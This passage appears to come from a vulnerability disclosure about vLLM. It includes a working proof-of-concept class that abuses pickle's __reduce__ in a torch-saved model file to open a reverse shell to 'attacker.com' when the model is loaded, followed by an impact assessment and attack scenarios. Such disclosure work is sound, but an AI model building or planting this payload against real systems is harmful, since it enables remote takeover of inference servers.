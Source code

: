 ### **PoC 3: Remote Code Execution**

```python
"""
Advanced PoC: Reverse shell via model loading
"""

import torch
import base64

class ReverseShellPayload:
    def __reduce__(self):
        import subprocess
        # Reverse shell to attacker's server
        cmd = "bash -i >& /dev/tcp/attacker.com/4444 0>&1"
        return (subprocess.call, (['/bin/bash', '-c', cmd],))

# Create weaponized model
torch.save({'exploit': ReverseShellPayload()}, 'reverse_shell_model.pt')
```

---

## Impact Assessment

### **Affected Users**

1. **Cloud ML Services**
   - Any service using vLLM for inference
   - Model hosting platforms
   - API providers using vLLM backend

2. **Research Institutions**
   - Universities running vLLM servers
   - Shared GPU clusters
   - Academic ML infrastructure

3. **Enterprise Deployments**
   - Companies using vLLM for production inference
   - Internal ML platforms
   - Customer-facing AI services

### **Attack Scenarios**

**Scenario 1: Malicious Model Repository**
```
Attacker: Creates malicious model on HuggingFace
Victim: Loads model using vLLM
Impact: Remote Code Execution on inference server
Likelihood: HIGH
```

**Scenario 2: Supply Chain Attack**
```
Attacker: Compromises popular model repository
Victim: Automated model updates with vLLM
Impact: Widespread RCE across infrastructure
Likelihood: MEDIUM
```
